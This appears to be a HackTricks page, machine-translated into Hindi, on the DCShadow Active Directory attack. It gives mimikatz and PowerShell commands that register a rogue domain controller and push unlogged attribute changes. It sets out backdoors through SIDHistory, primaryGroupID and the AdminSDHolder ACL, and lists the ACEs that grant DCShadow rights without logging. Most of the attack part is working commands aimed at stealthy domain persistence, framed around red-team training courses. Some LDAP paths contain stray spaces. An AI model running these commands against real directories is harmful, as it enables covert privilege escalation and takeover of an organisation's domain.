 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# DCShadow

यह AD में एक **नया डोमेन कंट्रोलर** पंजीकृत करता है और निर्दिष्ट वस्तुओं पर **गुण** (SIDHistory, SPNs...) को **धकेलने** के लिए इसका उपयोग करता है **बिना** किसी **लॉग** के जो **संशोधनों** के बारे में हो। आपको **DA** विशेषाधिकार की आवश्यकता है और **रूट डोमेन** के अंदर होना चाहिए।\
ध्यान दें कि यदि आप गलत डेटा का उपयोग करते हैं, तो बहुत ही खराब लॉग दिखाई देंगे।

हमला करने के लिए आपको 2 mimikatz उदाहरणों की आवश्यकता है। इनमें से एक RPC सर्वरों को SYSTEM विशेषाधिकार के साथ शुरू करेगा (आपको यहां उन परिवर्तनों को इंगित करना होगा जिन्हें आप करना चाहते हैं), और दूसरा उदाहरण मानों को धकेलने के लिए उपयोग किया जाएगा:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - DA या समान की आवश्यकता है" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

ध्यान दें कि **`elevate::token`** `mimikatz1` सत्र में काम नहीं करेगा क्योंकि यह थ्रेड के विशेषाधिकारों को बढ़ाता है, लेकिन हमें **प्रक्रिया के विशेषाधिकारों** को बढ़ाने की आवश्यकता है।\
आप "LDAP" ऑब्जेक्ट भी चुन सकते हैं: `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

आप DA से या इस न्यूनतम अनुमतियों वाले उपयोगकर्ता से परिवर्तन धकेल सकते हैं:

* **डोमेन ऑब्जेक्ट** में:
* _DS-Install-Replica_ (डोमेन में प्रतिकृति जोड़ें/हटाएं)
* _DS-Replication-Manage-Topology_ (प्रतिलिपि टोपोलॉजी प्रबंधित करें)
* _DS-Replication-Synchronize_ (प्रतिलिपि समन्वय)
* **कॉन्फ़िगरेशन कंटेनर** में **साइट्स ऑब्जेक्ट** (और इसके बच्चे):
* _CreateChild and DeleteChild_
* **DC** के रूप में पंजीकृत **कंप्यूटर का ऑब्जेक्ट**:
* _WriteProperty_ (लिखें नहीं)
* **लक्ष्य ऑब्जेक्ट**:
* _WriteProperty_ (लिखें नहीं)

आप [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) का उपयोग करके इन विशेषाधिकारों को एक अप्रिविलेज्ड उपयोगकर्ता को दे सकते हैं (ध्यान दें कि इससे कुछ लॉग छोड़ेंगे)। यह DA विशेषाधिकारों की तुलना में बहुत अधिक प्रतिबंधात्मक है।\
उदाहरण: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  इसका मतलब है कि उपयोगकर्ता नाम _**student1**_ जब मशीन _**mcorp-student1**_ में लॉग इन होता है, तो उसके पास ऑब्जेक्ट _**root1user**_ पर DCShadow विशेषाधिकार हैं।

## DCShadow का उपयोग करके बैकडोर बनाना

{% code title="SIDHistory में एक उपयोगकर्ता के लिए एंटरप्राइज एडमिन्स सेट करें" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="प्राथमिक समूह आईडी बदलें (उपयोगकर्ता को डोमेन प्रशासकों के सदस्य के रूप में डालें)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="AdminSDHolder के ntSecurityDescriptor को संशोधित करें (एक उपयोगकर्ता को पूर्ण नियंत्रण दें)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - DCShadow का उपयोग करके DCShadow अनुमतियाँ दें (संशोधित अनुमतियाँ लॉग नहीं)

हमें अपने उपयोगकर्ता के SID के साथ निम्नलिखित ACEs को अंत में जोड़ने की आवश्यकता है:

* डोमेन ऑब्जेक्ट पर:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* हमलावर कंप्यूटर ऑब्जेक्ट पर: `(A;;WP;;;UserSID)`
* लक्षित उपयोगकर्ता ऑब्जेक्ट पर: `(A;;WP;;;UserSID)`
* कॉन्फ़िगरेशन कंटेनर में साइट्स ऑब्जेक्ट पर: `(A;CI;CCDC;;;UserSID)`

किसी ऑब्जेक्ट का वर्तमान ACE प्राप्त करने के लिए: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

ध्यान दें कि इस मामले में आपको **कई परिवर्तन** करने की आवश्यकता है, केवल एक नहीं। इसलिए, **mimikatz1 सत्र** (RPC सर्वर) में उस परिवर्तन के साथ **`/stack`** पैरामीटर का उपयोग करें जिसे आप करना चाहते हैं। इस तरह, आपको सभी स्टक किए गए परिवर्तनों को करने के लिए केवल एक बार **`/push`** करने की आवश्यकता होगी।

[**DCShadow के बारे में अधिक जानकारी ired.team पर।**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}

